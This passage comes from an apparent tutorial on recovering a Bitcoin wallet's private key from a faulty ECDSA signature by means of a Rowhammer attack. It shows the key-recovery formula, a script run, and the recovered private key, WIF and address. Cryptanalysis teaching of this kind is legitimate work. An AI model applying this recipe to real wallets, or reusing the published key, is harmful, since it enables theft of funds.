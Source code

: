 

<p><code>Privkey = ((((S * K) - Z) * modinv(R,N)) % N)</code></p>



<p>Let’s run the script:</p>



<pre class="wp-block-code"><code>python3 calculate.py</code></pre>



<figure class="wp-block-image"><img src="./How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault Rowhammer Attack on Bitcoin CRYPTO DEEP TECH_files/image-128.png" alt="How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault (Rowhammer Attack on Bitcoin)" class="wp-image-1208"></figure>



<p><code>PrivKey = aa35fda8f16d06ae02bdcf671e03035795a0b0ecbdae45098928f6587016a932</code></p>



<p><strong><a href="https://cryptodeep.ru/bitaddress.html" target="_blank" rel="noreferrer noopener">Let’s open bitaddress</a></strong>&nbsp;and&nbsp;check:</p>



<pre class="wp-block-code"><code>ADDR: 1HhZSwcEj5ncVoPT9bAupvcEjwToY1rJ1o
WIF:  L2vaWmjh7XpV9AMWDjmNSGPQNEd4QG7YGAMMqPEmGSt8WSppysCV
HEX:  aa35fda8f16d06ae02bdcf671e03035795a0b0ecbdae45098928f6587016a932</code></pre>


<div class="wp-block-image">